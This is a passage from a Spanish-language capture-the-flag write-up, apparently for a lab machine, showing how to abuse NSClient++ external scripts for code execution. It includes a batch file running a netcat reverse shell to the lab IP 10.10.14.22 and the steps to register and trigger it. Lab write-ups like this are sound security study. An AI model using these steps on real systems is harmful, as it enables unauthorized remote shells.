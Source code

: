 	![27]
	
	Esto nos devuelve la contraseña a ingresar en el sitio web. Una vez ingresada, podremos ver el panel de administración de este software.
	
	![28]
	
	El segundo paso nos indica que debemos revisar que los módulos **CheckExternalScripts** y **Scheduler** estén habilitados.

	![29]
	
	Una vez corroborado este dato, debemos crear un archivo **bat** malicioso que ejecutará una simple sentencia que consiste en entablar una reverse shell con ayuda de **netcat**. Su contenido es el siguiente:
	
	```
		@echo off
		c:\temp\nc.exe 10.10.14.22 443 -e cmd.exe
	```
	
	Este archivo **bat** debe ser enviado a la máquina víctima, junto con el ejecutable de **netcat** a la ruta **C:\Temp**
	
	![30]
	
	![31]
	
	El siguiente paso consiste en crear un nuevo script externo que cumpla con la función de ejecutar el **bat** malicioso que hemos puesto en la máquina. Para ello, debemos ir a la sección de Settings->Settings->External Scripts->Scripts y añadir uno nuevo con la siguiente información:
	
	```
		key: Reverse (el nombre es identificativo y no es relevante)
		value: c:\temp\evil.bat
	```
	
	Hacemos clic en **Add**.
	
	![32]
	
	Cuando esté añadido, debemos guardar los cambios haciendo clic en **Changes** y después en **Save configuration**.
	
	![33]
	
	Finalizamos esta configuración haciendo clic en **Control** y después en **Reload**. Para este momento, debemos tener el netcat en escucha.
	
	![34]
	
	Nota: Si la página web se queda en **Reloading...** por mucho tiempo, debemos reiniciar la máquina e intentarlo de nuevo. A esto me refería cuando decía que el software es demasiado inestable, y esto no funciona a la primera. El objetivo consiste en dirigirse, una vez termine el **"Reload"** de la página, a la sección de **Queries** y desde ahí ejecutar el script que acabamos de crear.
	